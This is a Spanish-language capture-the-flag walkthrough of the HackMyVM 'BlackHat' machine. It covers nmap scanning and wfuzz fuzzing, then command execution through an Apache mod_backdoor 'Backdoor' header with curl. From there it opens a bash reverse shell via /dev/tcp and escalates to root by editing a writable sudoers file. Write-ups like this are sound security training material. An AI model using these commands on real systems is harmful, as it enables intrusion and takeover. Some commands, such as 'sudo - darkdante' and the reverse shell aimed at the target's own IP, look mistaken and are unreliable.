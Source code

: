 ```yaml
---
layout: post
title: BlackHat
date: 2022-11-29
categories: ["HMV", "Enumeration", "PHP", "File Edit"]
thumbnail: "assets/images/BlackHat.png"
---
```


# BlackHat [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.118 -oG allPorts`
- `nmap -sCV -p80 192.168.1.118 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Como no hemos visto nada interesante vamos a hacer `fuzzing`, en mi caso utilizaré `WFuzz`, una herramienta en `Python`. Antes de eso me fijé que utilizaba `PHP`, por lo que en vez de buscar directorios busqué por archivos `PHP`.

```
wfuzz -u "192.168.1.118/FUZZ.php" -w directory-list-2.3-medium.txt --hc 404
```

Tras unos minutos de espera veremos un archivo `PHP` con el nombre de `phpinfo.php`. Dicho fichero contiene la información de `PHP` representada, por lo que es bastante útil a la hora de descubrir cosas.

Bien, tras un rato mirando me fijé en `Loaded Modules`, había un módulo algo extraño llamado `mod_backdoor`. Busqué información sobre éste módulo y llegué a un `script` en `Python` hecho por [`WangYihang`](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) el cual si inspeccionamos el código veremos que para enviar un comando utiliza el `header` `Backdoor`.

Sabiendo esto podemos crear nosotros mismos esa petición con `CURL`, vamos allá:

- `curl -H "Backdoor: id" http://192.168.1.118`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Vemos que podemos ejecutar comandos de forma remota! Ahora tenemos que ganar una Shell, para ello me copié una Reverse Shell de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) en `Bash`. Antes de enviar el comando nos tenemos que poner es escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Ahora sí estamos preparados para entablar una conexión:

- `curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118`

Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina me dispuse a listar los usuarios, antes de mirar el archivo `/etc/passwd` me gusta listar el directorio `/home/`. Vemos a un usuario con el nombre `darkdante`.

Tras varios minutos sin conseguir nada como `www-data` ejecuté el siguiente comando:

- `sudo - darkdante`

Wow! No hemos proporcionado contraseña y estamos como `Darkdante`! 

### Subida de privilegios #2
Ahora que ya estamos como `Darkdante` podemos continuar con nuestro objetivo: obtener `root`. Para ello comencé con enumeración básica, aunque no sirvió de nada. Tras un rato me puse a ver los archivos importantes: `/etc/passwd`, `/etc/shadow` (no tenía permisos) y, por último `/etc sudoers`, el cual podía editar.

Vaya sorpresa, generalmente dicho archivo no se puede editar debido a los riesgos que conlleva, pero como se puede editar vamos a poner nuestro nombre de usuario para que pueda ejecutar todo como `root` sin contraseña.

Para ello añadiremos la siguiente línea justo debajo de `root`:

```
darkdante ALL=(ALL:ALL) ALL
```

Una vez hecho lo anterior ejecutamos `sudo su` para ser `root`.

Enhorabuena! Estamos en la máquina como `root`! Qué fácil!
